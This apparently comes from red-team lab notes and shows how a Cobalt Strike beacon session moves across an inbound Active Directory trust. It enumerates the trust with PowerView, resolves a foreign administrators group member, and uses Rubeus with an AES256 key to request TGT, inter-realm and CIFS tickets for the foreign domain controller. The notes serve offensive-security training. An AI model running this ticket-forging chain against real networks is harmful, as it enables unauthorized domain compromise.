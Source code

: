 dev.cyberbotic.io also has a one-way inbound trust with dev-studio.com.
```
beacon> powershell Get-DomainTrust

SourceName      : dev.cyberbotic.io
TargetName      : dev-studio.com
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : 
TrustDirection  : Inbound
WhenCreated     : 8/16/2022 9:52:37 AM
WhenChanged     : 8/16/2022 9:52:37 AM
```
We can enumerate the foreign domain across the trust.
```
beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

dnshostname      
-----------      
dc.dev-studio.com
```
`Get-DomainForeignGroupMember` will enumerate any groups that contain users outside of its domain and return its members.
```
beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

GroupDomain             : dev-studio.com
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=dev-studio,DC=com
MemberDomain            : dev-studio.com
MemberName              : S-1-5-21-569305411-121244042-2357301523-1120
MemberDistinguishedName : CN=S-1-5-21-569305411-121244042-2357301523-1120,CN=ForeignSecurityPrincipals,DC=dev-studio,DC=com
```
This output shows that there's a member of the domain's built-in Administrators group who is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain.
```
beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120

DEV\Studio Admins
```
Get the members of that group
```
beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName

MemberName
----------
nlamb
```

Request tgt for that user
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779fa8afa28d66d155d9d7c14d394359c5d29a86b6417cb94269e2e84c4cee4 /nowrap
```
Request tgs from our domain (dc) to target domain (service)
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap
```
Request tgs for target machine
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap
```
